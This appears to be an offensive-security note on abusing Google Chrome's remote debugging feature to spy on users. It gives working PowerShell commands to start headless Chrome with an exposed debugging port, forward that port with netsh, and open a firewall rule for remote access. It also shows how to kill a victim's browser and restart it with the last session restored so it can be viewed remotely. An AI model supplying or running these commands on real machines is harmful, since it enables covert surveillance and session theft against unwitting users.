 # Powerfull automation
![[COM Objects]]

## Automating and remote controlling Google Chrome
How to leverage remote debugging to spy on users!
- Running google chrome in the background with remote debugging 
```powershell
# Here we can see also some more good options
Start-Process "chrome" -ArgumentList "https://github.com","--headless","--remote-debugging-port=9222"

# Good option to keep in mind: screenshot=C:/users/zeyad/google.png
# TODO create a script to screen capture browsers
```
- Adding port forward rule (Require admin privileges)
```powershell
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=48333 connectaddress=127.0.0.1 connectport=9222
# Cleanup
netsh interface portproxy reset
```
- Allowing remote connections to port 48333 via firewall
```powershell
New-NetFirewallRule -Name ChromeRemote -DisplayName "Open
Port 48333" -Direction Inbound -Protocol tcp -LocalPort 48333 -Action Allow -Enabled True
# cleanup
Remove-NetFirewallRule -Name ChromeRemote
```
- Alternatively you can enable it directly without port forwarding using the **`--remote-debugging-address=0.0.0.0`** option
```powershell
# This won't work without the --headless option
Start-Process "chrome" -ArgumentList "https://github.com","--remote-debugging-port=9222","--remote-debugging-address=0.0.0.0","--headless"
```
Now you can view the page remotely, but if the url was like :
```txt
https://chrome-devtools-frontend.appspot.com/serve_file/@273bf7ac8c909cde36982d27f66f3c70846a3718/inspector.html?ws=172.16.111.138:9222/devtools/page/2D2CF661C2D2BA88745171418BF50A0E&remoteFrontend=true
```
Consider removing this part to resolve the error.
The final URL should be like:
```txt
http://172.16.111.138:9222/devtools/inspector.html?ws=172.16.111.138:9222/devtools/page/2D2CF661C2D2BA88745171418BF50A0E&remoteFrontend=true
```
> **Important information Notes**
> 1. Chrome is frequently updated, and behaviors might change over time. 
> 2. The remote debugging feature Chrome provides does not offer an encrypted connection, so use this remotely capability carefully.
### Using Chrome remote debugging to spy on users!
- Kill the user chrome session then start a new one
```powershell
# This will require manual portforward
Start-Process "chrome" -ArgumentList "--headless","--remote-debugging-port=9222","--restore-last-session"
```
- View victim settings by browsing to **chrome://settings** (didn't work for me)
